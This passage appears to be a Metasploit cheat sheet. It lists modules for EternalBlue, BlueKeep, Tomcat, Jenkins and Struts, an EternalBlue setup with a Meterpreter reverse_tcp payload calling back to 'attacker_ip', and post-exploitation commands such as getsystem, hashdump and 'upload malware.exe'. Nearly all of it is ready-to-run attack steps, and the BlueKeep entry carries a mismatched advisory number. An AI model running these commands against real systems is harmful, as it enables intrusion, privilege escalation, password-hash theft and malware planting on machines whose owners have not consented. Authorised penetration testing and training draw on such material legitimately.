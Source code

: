 ```bash
# List sessions
sessions -l

# Interact with session
sessions -i 1
```

### Common Exploits
```bash
# EternalBlue (MS17-010)
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS target_ip
set payload windows/x64/meterpreter/reverse_tcp
set LHOST attacker_ip
exploit

# BlueKeep (MS12-020)
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce

# Tomcat Manager
use exploit/multi/http/tomcat_mgr_upload

# Jenkins Script Console
use exploit/multi/http/jenkins_script_console

# Apache Struts
use exploit/multi/http/struts2_content_type_ognl
```

### Meterpreter Commands
```bash
# System
sysinfo
getuid
getpid
ps

# User
getuid
getsystem  # Privilege escalation
hashdump   # Dump password hashes

# File system
pwd
ls
cd
cat file.txt
download file.txt
upload malware.exe
search -f *.txt

# Network
ipconfig
route
arp
netstat

# Process
ps
getpid
migrate PID
kill PID

```